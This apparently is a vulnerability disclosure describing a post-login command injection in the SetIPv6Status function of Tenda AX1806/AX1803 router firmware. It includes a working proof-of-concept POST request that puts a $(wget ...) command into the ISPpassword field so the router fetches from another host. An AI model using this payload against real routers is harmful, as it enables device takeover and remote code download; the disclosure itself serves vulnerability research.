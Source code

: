 # Tenda AX18 v1.0.0.1 has a commend injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: Tenda (https://tenda.com.cn)
- **Products**: WiFi Router AX1806 v1.0.0.1 and AX1803 v1.0.0.1
- **Firmware download address:** https://tenda.com.cn/download/detail-3225.html
- **Firmware download address:** https://www.tenda.com.cn/product/download/AX1806.html



## Description

### 1.Product Information:

Tenda AX1806 v1.0.0.1 and AX1803 v1.0.0.1  router, the latest version of simulation overview：

![image-20220303194611366](images/image-20220303194611366.png)

![image-20220303194647701](images/image-20220303194647701.png)

### 2. Vulnerability details

Tenda AX1806 and AX1803 was discovered to contain a command injection vulnerability in `SetIPv6Status` function

![image-20220303205211759](images/image-20220303205211759.png)

![image-20220303205241288](images/image-20220303205241288.png)

When we set connect type = `PPPoE` we will get a command injection vulnerability after login.

![image-20220303205451041](images/image-20220303205451041.png)

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/setIPv6Status HTTP/1.1
Host: 192.168.2.1
Connection: close
Content-Length: 191
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="98", "Google Chrome";v="98"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.109 Safari/537.36
sec-ch-ua-platform: "macOS"
Origin: https://192.168.2.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.2.1/main.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=edeff4d6d98974e46457a587e2e724a2ndy5gk

IPv6En=1&conType=PPPoE&ISPusername=addasdas&ISPpassword=$(wget http://192.168.2.2:9999/)&prefixDelegate=0&wanAddr=%2F&gateWay=&lanType=undefined&wanPreDNS=&wanAltDNS=&lanPrefix=undefined%2F64
```

![image-20220303212057430](images/image-20220303212057430.png)